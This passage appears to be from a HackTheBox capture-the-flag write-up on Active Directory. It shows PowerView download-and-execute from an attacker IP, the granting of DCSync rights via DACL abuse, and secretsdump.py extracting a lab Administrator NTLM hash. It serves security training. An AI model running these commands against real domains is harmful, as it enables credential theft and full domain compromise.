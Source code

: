 ![alt text](<Pasted image 20240107150202.png>)

Now, we just need to grant **DcSync** permissions to our user. For **Dacl** abuse, we can refer to [hackerrecipes](https://www.thehacker.recipes/a-d/movement/dacl). Let's proceed to exploit it.

```powershell
# give DcSync write using PowerView
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.25:8000/PowerView.ps1')

$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\admin', $SecPassword)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity admin -Rights DCSync
```

![alt text](<Pasted image 20240107153113.png>)

### DcSyns using Secretsdump.py
Now, let's perform a **DcSync** attack using **secretsdump.py** from the Impacket toolkit 
**SecretsDump.py** is a Python tool by Impacket that can extract secrets from targets. **SecretsDump.py** performs various techniques to dump hashes from the remote machine without executing any agent there. For **SAM** and **LSA** Secrets (including cached creds) it tries to read as much as it can from the **registry** and then saves the hives in the target system `(%SYSTEMROOT%\Temp dir)` and reads the rest of the data from there. For **NTDS.dit** it uses the **Volume Shadow Copy Service** to read NTDS.dit directly from the disk or it can use the parser module to read NTDS.dit files from a copy.
```bash
secretsdump.py -dc-ip 10.10.10.161 htb.local/admin:password@10.10.10.161
```
`Administrator:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6`

![alt text](<Pasted image 20240107153217.png>)
